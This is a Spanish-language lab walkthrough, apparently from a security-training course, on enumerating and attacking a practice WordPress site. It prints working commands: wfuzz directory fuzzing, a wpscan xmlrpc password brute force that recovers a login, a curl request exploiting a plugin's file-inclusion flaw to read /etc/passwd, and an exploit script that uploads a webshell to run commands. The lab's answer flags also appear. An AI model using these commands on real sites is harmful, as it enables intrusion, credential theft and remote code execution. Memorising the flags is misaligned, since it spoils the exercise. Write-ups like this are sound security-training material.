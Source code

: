# Laboratorio: Wordpress 🛒

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**

<p align="center">
    <img src="./assets/Wordpress/01-Web.PNG" width=520>
</p>

---

2. Veremos la publicación `Shipping Industry News` y veremos el nombre de un plugin
* **URL:** `http://blog.inlanefreight.local/?p=1`

<p align="center">
    <img src="./assets/Wordpress/02-Plugin.PNG" width=520>
</p>

---

3. Si queremos su versión veremos el archivos `readme.txt` 
* **URL:** `http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt`

```
=== WP Sitemap Page ===
<SNIP>
Stable tag: 1.6.4
<SNIP>
```

---

4. Para encontrar la `flag` fuzzearemos en el directorio `wp-content` con **wfuzz**
* `wfuzz -c -t 50 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://blog.inlanefreight.local/wp-content/FUZZ/`

**Output**
```
000000150:   200        17 L     71 W       1168 Ch     "uploads"
```

---

5. La **flag** 🏴 se encuentra en `http://blog.inlanefreight.local/wp-content/uploads/2021/08/`

* `0ptions_ind3xeS_ftw!`

---
---
---

# Laboratorio: Attacking WordPress 🛒

1. Usaremos **wpscan** para conocer posibles usuarios que existan en `WordPress`
* `wpscan --url wpscan --url http://blog.inlanefreight.local --enumerate`

```java
<SNIP>
[+] doug
 | Found By: Author Id Brute Forcing - Author Pattern(AggressiveDetection)
 | Confirmed By: Login Error Messages (Aggressive Detection) 
<SNIP>
```
---
2. Ahora, realizeremos un **ataque de fuerza bruta** usando `xmlrpc.php`
* `wpscan --password-attack xmlrpc -t 20 -U "doug" -P /home/kali/Desktop/rockyou.txt --url http://blog.inlanefreight.local/`

```java
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - doug / jessica1
```
---
3. En el output del primer scaneo con **wpscan** vimos que existen 2 plugins `mailmasta` y `wpdiscuz`

* `mailmasta` es vulnerable a **LFI**, así que leeremos el archivo `/etc/passwd`
* `curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

```java
<SNIP>
webadmin:x:1001:1001::/home/webadmin:/bin/bash
<SNIP>
```
---
4. Ahora, vulneramos `wpdiscuz`
* **RECURSO:** `https://www.exploit-db.com/exploits/49967`
* `python wpdiscuz.py -u http://blog.inlanefreight.local/  -p /?p=1`

```sql
<SNIP>
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2023/06/dzojuyxmewyolkm-1686341026.8348.php&quot;
<SNIP>
```

* Visitamos la **URL** y podremos ejecutar comandos, así que leeremos la **flag** 🏴
* **URL:** `http://blog.inlanefreight.local/wp-content/uploads/2023/06/dzojuyxmewyolkm-1686341026.8348.php?cmd=cat /var/www/blog.inlanefreight.local/flag_[ID].txt`

* **Flag:** `l00k_ma_unAuth_rc3!`